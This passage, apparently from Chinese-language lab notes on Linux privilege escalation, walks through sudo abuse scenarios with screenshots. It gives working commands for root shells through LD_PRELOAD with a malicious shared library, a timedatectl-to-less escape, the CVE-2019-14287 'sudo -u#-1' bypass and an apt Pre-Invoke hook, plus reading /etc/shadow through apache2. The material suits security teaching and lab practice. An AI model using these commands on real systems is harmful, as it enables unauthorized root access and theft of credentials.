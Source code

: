 ```bash
# 启动文件通常包含一些与程序启动相关的初始化代码，
# 但在某些情况下，我们可能希望避免使用默认的启动文件。
```
用 **sudo **将 **LD_PRELOAD **值设置为 **shell.so **文件，执行可用 **sudo **提权的命令进行提权
```bash
sudo LD_PRELOAD=./shell.so more
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1684155587791-fb9adddc-4285-4c7c-a47c-e5d8c29e0b9b.png#averageHue=%23282b3c&clientId=u17fc9aa5-8cea-4&from=paste&height=158&id=u6b04ce66&originHeight=198&originWidth=562&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=84817&status=done&style=none&taskId=u58d3c16c-912d-4b34-b1aa-4a84dc85e7f&title=&width=449.6)
提权成功，因为当执行 **sudo **指令时，系统加载了自定义的恶意共享库，得以提权
## 情景十一 - timedatectl 提权
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685248417232-b22a86b7-73a7-4143-9f5f-e54fa73a619c.png#averageHue=%2321232f&clientId=u8d2d89ad-fcf2-4&from=paste&height=180&id=ub1216815&originHeight=225&originWidth=612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=99680&status=done&style=none&taskId=u320e0e52-fd7d-4f07-a2db-07d1bbdf7d4&title=&width=489.6)
`**timedatectl**` 是 Linux 系统中的⼀个命令，**⽤于查看和更改系统的时间和⽇期设置**。它是 **systemd** 系统和服务管理器的⼀部分，**可以⽤来查看和更改系统时区、系统时间、RTC 时间（硬件时钟）以及系统时间与 RTC 时间的同步设置等。**
`**list-timezones**` 是 `**timedatectl**` 命令的⼀个选项，**⽤来列出所有可⽤的时区。**当你执⾏ `**timedatectl list-timezones**` 命令时，系统会列出所有 **systemd **所知道的可⽤时区，**这些时区⼀般来⾃于 IANA 时间数据库。**
所以， `**list-timezones**` 是 `**timedatectl**` 的⼀部分，⽤于实现列出所有可⽤时区的功能。
**gtfobins** - 给出提权操作
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685248624679-78233fb5-6908-42e2-9263-a880a6168db7.png#averageHue=%23fcf8f8&clientId=u8d2d89ad-fcf2-4&from=paste&height=196&id=uc003e7b2&originHeight=245&originWidth=1182&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=9387&status=done&style=none&taskId=u767d4a9a-bd3d-42b3-a286-5dd3214d3de&title=&width=945.6)
`**timedatectl**`** **的⼦命令`**list-timezones**`调⽤了`**less**`的机制，所以能够给以 
`**!/bin/bash**`** **的⽅式提权。
```bash
sudo timedatectl list-timezones

# 进入 less 界面
!/bin/sh
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685248728174-d611b995-618b-4889-ad0d-a748f2214e2f.png#averageHue=%2320222f&clientId=u8d2d89ad-fcf2-4&from=paste&height=58&id=u31647fe5&originHeight=73&originWidth=238&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12404&status=done&style=none&taskId=u180c1401-fe59-4d61-8cdf-8f92b6e87af&title=&width=190.4)
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685248745768-9d69935a-8b31-4230-bbdd-5d0f5108a196.png#averageHue=%231b1d2a&clientId=u8d2d89ad-fcf2-4&from=paste&height=158&id=udde7d72f&originHeight=198&originWidth=516&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=64594&status=done&style=none&taskId=u55ba7db4-8248-4eee-bc8a-165de5d17ef&title=&width=412.8)
## 情景十二 - sudo < 1.8.28 - CVE-2019-14287
```bash
sudo -V | grep version
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685584350592-22ef59c0-4e17-4b1b-94f9-ae38ffd75d9e.png#averageHue=%23242631&clientId=u5c7533cb-daf7-4&from=paste&height=83&id=u125b8586&originHeight=104&originWidth=434&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=39772&status=done&style=none&taskId=udd6de91e-ca99-431b-b0d1-31d3883ed50&title=&width=347.2)
sudo 版本低于 **1.8.28**，就会有该漏洞 **CVE-2019-14287**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685584315698-4256fe55-b6b5-4464-a1fa-d6d9ab2df140.png#averageHue=%231f212f&clientId=u5c7533cb-daf7-4&from=paste&height=185&id=u59bd5bcb&originHeight=231&originWidth=1087&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=150490&status=done&style=none&taskId=u6709c5a0-4912-4ef4-a947-4bf568f45f9&title=&width=869.6)
**(ALL, !root) : **任何用户都可以不需输密码sudo执行 **/bin/bash** 命令，但不能以 **root **身份执行。
```bash
# 以 uid 为 -1 的身份执行命令。事实上，uid 为 -1 是非法的

sudo -u#-1  /bin/bash
```
## 情景十三 - apt、apt-get
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685585308947-ce660836-425d-454f-999c-1f87a0a9c1e1.png#averageHue=%23242632&clientId=u5c7533cb-daf7-4&from=paste&height=138&id=ud5f7f21c&originHeight=172&originWidth=538&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=77328&status=done&style=none&taskId=u4de713e6-f6ba-4890-aa8c-b7630d392f5&title=&width=430.4)
```bash
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685585267680-31455175-8db4-4eb4-bc5f-500dc22b3ffd.png#averageHue=%23232534&clientId=u5c7533cb-daf7-4&from=paste&height=161&id=u8949a8c1&originHeight=201&originWidth=997&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=161140&status=done&style=none&taskId=u75e6d079-8c18-48b6-b6e5-b8292dee4b3&title=&width=797.6)
## 情景十四 - apache2
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685586434601-5bdcb631-df08-4413-90ea-223752c1453d.png#averageHue=%232e323f&clientId=u5c7533cb-daf7-4&from=paste&height=66&id=ucef223ca&originHeight=83&originWidth=580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=60266&status=done&style=none&taskId=ua2ab395e-f154-4cbc-93eb-5b72f2cc534&title=&width=464)
```bash
sudo /usr/sbin/apache2 -f /etc/shadow

# -f 指定 apache2 的配置文件，
# 这里会报错并泄露 /etc/shadow 的第一行内容，root 的 凭据
```